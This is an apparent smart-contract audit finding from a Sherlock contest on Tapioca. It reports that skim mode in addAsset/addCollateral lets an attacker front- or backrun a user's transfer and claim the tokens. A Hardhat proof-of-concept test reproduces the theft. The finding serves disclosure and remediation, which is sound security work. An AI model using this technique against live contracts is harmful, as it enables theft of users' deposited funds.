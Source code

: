 Future Azure Locust

medium

# Stealing tokens added in `skim` mode

## Summary

Anyone can backrun the user's transfer of assets to market when the user wants to add collateral or assets in `skim` mode. The attacker can steal the tokens and add them as theirs. 

## Vulnerability Detail

The [`_addAsset`](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/singularity/SGLCommon.sol#L180) and [`_addCollateral`](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/bigBang/BBLendingCommon.sol#L40) functions accept a `skim` parameter, forwarded to the `_addTokens` function.

https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/bigBang/BBCommon.sol#L128-L138

When it is set to `true`, the market assumes that user had made a transfer to the market before. The market checks whether its balance is greater that the number of previously stored assets. If so, it treats the surplus as user's tokens.

The issue is that anyone can backrun user's transfer to the market and deposit user's tokens as theirs.

Here is the attack scenario:
1. The victim transfers 100 tokens to market.
2. The victim sends new transaction that calls [`addAsset`](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/singularity/Singularity.sol#L230) with `skim = true`.
3. The attacker backruns the transaction from step 1 (alternatively, frontruns the `addAsset` transaction) and calls [`addAsset`](https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/singularity/Singularity.sol#L230) with `skim = true` and modified value of `to` parameter (changing it to attacker's address).

**Note to sponsor:** If you think that users will use this feature often, this bug may be considered HIGH.

**PoC**
As the hardhat tests were not working in the contest repository, we have used the repository and branch recommended by the team, that is https://github.com/Tapioca-DAO/Tapioca-bar repository and branch `CU-86drm12h2-hh-fixes`. It differs a bit from the tests in contest's repo but the attack scenario is the same. The PoC has been created for the `addCollateral` function.

```solidity
import { loadFixture } from '@nomicfoundation/hardhat-network-helpers';
import { SignerWithAddress } from '@nomiclabs/hardhat-ethers/signers';
import { YieldBox } from '@tapioca-sdk/typechain/YieldBox';
import {
    ERC20Mock,
    MockSwapper__factory,
} from '@tapioca-sdk/typechain/tapioca-mocks';
import { expect } from 'chai';
import { BigNumber } from 'ethers';
import { formatUnits } from 'ethers/lib/utils';
import hre, { ethers } from 'hardhat';
import { BN, register } from './test.utils';

describe('BigBang test', () => {

    describe('addCollateral()', () => {

        it('should add collateral', async () => {
            const {
                wethBigBangMarket,
                weth,
                wethAssetId,
                yieldBox,
                deployer,
                eoa1,
                marketHelper,
            } = await loadFixture(register);

            await weth.approve(yieldBox.address, ethers.constants.MaxUint256);
            await yieldBox.setApprovalForAll(wethBigBangMarket.address, true);

            const wethMintVal = ethers.BigNumber.from((1e18).toString()).mul(
                10,
            );
            await weth.freeMint(wethMintVal);
            const valShare = await yieldBox.toShare(
                wethAssetId,
                wethMintVal,
                false,
            );
            await yieldBox.depositAsset(
                wethAssetId,
                deployer.address,
                deployer.address,
                0,
                valShare,
            );

            // deployer sends tokens to market 
            await yieldBox.transfer(deployer.address, wethBigBangMarket.address, wethAssetId, valShare);

            // deployer creates a call in skim mode
            const addCollateralData = await marketHelper.addCollateral(
                deployer.address,
                deployer.address,
                true,
                0,
                valShare,
            );
            await wethBigBangMarket.execute(
                addCollateralData[0],
                addCollateralData[1],
                true,
            );

            let collateralShares = await wethBigBangMarket.userCollateralShare(
                deployer.address,
            );
            expect(collateralShares.gt(0)).to.be.true;
            //deployer gets valShares
            expect(collateralShares.eq(valShare)).to.be.true;

        });

        it('should steal collateral', async () => {
            const {
                wethBigBangMarket,
                weth,
                wethAssetId,
                yieldBox,
                deployer,
                eoa1,
                marketHelper,
            } = await loadFixture(register);

            await weth.approve(yieldBox.address, ethers.constants.MaxUint256);
            await yieldBox.setApprovalForAll(wethBigBangMarket.address, true);

            const wethMintVal = ethers.BigNumber.from((1e18).toString()).mul(
                10,
            );
            await weth.freeMint(wethMintVal);
            const valShare = await yieldBox.toShare(
                wethAssetId,
                wethMintVal,
                false,
            );
            await yieldBox.depositAsset(
                wethAssetId,
                deployer.address,
                deployer.address,
                0,
                valShare,
            );

            // deployer (victim) sends tokens to market 
            await yieldBox.transfer(deployer.address, wethBigBangMarket.address, wethAssetId, valShare);

            // eo1 (attacker) backruns the victim and creates a call in skim mode but changes the address to theirs
            const addCollateralData = await marketHelper.addCollateral(
                eoa1.address,
                eoa1.address,
                true,
                0,
                valShare,
            );
            await wethBigBangMarket.connect(eoa1).execute(
                addCollateralData[0],
                addCollateralData[1],
                true,
            );

            let collateralShares = await wethBigBangMarket.userCollateralShare(
                eoa1.address,
            );
            expect(collateralShares.gt(0)).to.be.true;
            // eoa1 (attacker) gets the valShare
            expect(collateralShares.eq(valShare)).to.be.true;

        });
    });

});
```

## Impact

MEDIUM - Stealing tokens of user who made a transfer to market (e.g. while using the business flow with `skim` set to `true`).

## Code Snippet

https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/bigBang/BBCommon.sol#L128-L138

https://github.com/sherlock-audit/2024-02-tapioca/blob/dc2464f420927409a67763de6ec60fe5c028ab0e/Tapioca-bar/contracts/markets/singularity/SGLCommon.sol#L165-L177

## Tool used

Manual Review

## Recommendation

Consider removing the `skim` mode.